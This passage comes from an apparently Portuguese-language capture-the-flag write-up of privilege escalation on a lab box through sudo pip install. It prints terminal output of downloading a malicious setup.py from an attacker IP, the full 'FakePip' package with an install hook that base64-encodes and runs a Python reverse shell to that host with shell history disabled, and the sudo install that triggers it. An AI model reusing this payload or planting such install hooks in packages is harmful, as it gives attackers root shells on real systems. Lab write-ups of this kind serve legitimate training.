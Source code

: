 ```
homer@canape:~$ wget http://10.10.14.120:8000/setup.py
wget http://10.10.14.120:8000/setup.py
--2018-09-14 19:59:50--  http://10.10.14.120:8000/setup.py
Connecting to 10.10.14.120:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 982 [text/plain]
Saving to: ‘setup.py’

setup.py            100%[===================>]     982  --.-KB/s    in 0s

2018-09-14 19:59:50 (95.3 MB/s) - ‘setup.py’ saved [982/982]

homer@canape:~$ cat setup.py
cat setup.py
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    RHOST = '10.10.14.120'  # change this

    reverse_shell = 'python -c "import os; import pty; import socket; lhost = \'%s\'; lport = 1338; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((lhost, lport)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"' % RHOST
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)


setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      url='https://github.com/0x00-0x00/fakepip',
      author='zc00l',
      author_email='andre.marques@esecurity.com.br',
      license='MIT',
      zip_safe=False,
cmdclass={'install': CustomInstall})
```

De boa na lagoa. Foi só rodar o pip install:

```
homer@canape:~$ sudo pip install . --upgrade --force-reinstall
sudo pip install . --upgrade --force-reinstall
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Processing /home/homer
Installing collected packages: FakePip
  Found existing installation: FakePip 0.0.1
    Uninstalling FakePip-0.0.1:
      Successfully uninstalled FakePip-0.0.1
  Running setup.py install for FakePip ... -
```

